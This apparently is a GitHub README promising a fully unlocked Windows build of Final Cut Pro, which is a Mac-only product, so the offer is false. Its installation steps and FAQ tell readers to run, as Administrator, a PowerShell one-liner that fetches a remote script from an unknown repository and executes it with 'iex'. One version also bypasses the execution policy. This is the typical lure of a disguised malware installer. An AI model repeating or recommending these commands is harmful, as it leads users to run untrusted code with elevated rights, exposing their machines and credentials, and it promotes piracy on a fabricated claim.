

<div align="center">


<br>


# Final Cut Pro Full Version
**Full build · Magnetic · ProRes**
<br>
**Full build · Magnetic · ProRes**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Final Cut Pro — magnetic timeline, ProRes export, Motion templates and cinematic grading tools all active.**

</div>

---

> Full version includes every effect, transition and ProRes codec — edit cinematic projects without Mac App Store billing.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🎬 **Magnetic timeline** — Clip connections and role-based organization.
- 🎨 **Color wheels** — Primary and secondary grading tools enabled.
- ✨ **Motion templates** — Titles, generators and effects fully included.
- 🔊 **Audio tools** — Roles, surround mixing and loudness analysis active.
- 🔓 **ProRes export** — All ProRes and HEVC profiles without restrictions.
- 📤 **360 & HDR** — Immersive and HDR timeline support in this build.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 15 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 15 GB free space.
</details>


TAGS
final-cut-pro, fcp-editor, magnetic-timeline, prores-codec, final-cut-2026, motion-templates, cinematic-edit, video-editing, film-editing, post-production, color-correction, content-creation, video-production, final-cut-pro-pc, media-editing
